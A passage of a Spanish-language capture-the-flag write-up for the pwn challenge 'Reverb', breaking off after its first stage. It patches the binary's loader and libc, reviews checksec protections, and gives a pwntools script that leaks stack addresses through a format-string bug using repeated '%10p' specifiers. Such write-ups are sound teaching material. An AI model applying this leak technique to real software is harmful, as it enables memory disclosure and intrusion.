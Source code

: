 # PWN / Reverb

Parcheamos el ELF para asegurarnos que usa el mismo enlazador dinamico y libc que el remoto:
```
patchelf --set-interpreter ld-linux-x86-64.so.2 --set-rpath $(pwd) chall
chmod u+x libc.so.6 ld-linux-x86-64.so.2 chall
./chall 
>> Soy el senor Meeseeks
Soy el senor Meeseeks
```

Vemos las propiedades del ejecutable:
```
checksec --file=chall
[*] '/home/kalcast/Descargas/reverb/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Vemos el código fuente y antes de imprimir la cadena se verifica con la función check que si hay caracteres '%' en la cadena: 
+ Debe tener al menos dos dígitos después
+ Los dígitos no deben comenzar con '0'
+ La conversión de esa cadena de dígitos a un entero largo debe ser menor o igual a 58

El parámetro %p en una cadena de formato se utiliza para imprimir una dirección de memoria en formato hexadecimal, con varias podemos imprimir las direcciones de memoria en la pila. Usar %10p es lo mismo que %p solo que imprimirá con un padding de 10 caracteres.

Con esto hacemos un script para filtrar la pila:

``` python3
from pwn import *

elf = context.binary = ELF('./chall')
io = process(elf.path)

# el buffer es de 384 caracteres asi que podemos leer 384/4=96 direcciones de memoria de la pila
io.sendlineafter(b">> ",b"%10p"*90)  

stack = io.recvline(False)

# Convertir las filtraciones a un array de direcciones de memoria empaquetadas
stack = [
       p64(int(s,16))
       for s in stack.replace(b"(nil)",b"0x0").replace(b"0x",b" ").split()
]

# formatear la salida para observar mejor
for i,s in enumerate(stack):
    print(f"{i}: {s} {hex(u64(s))}")

```
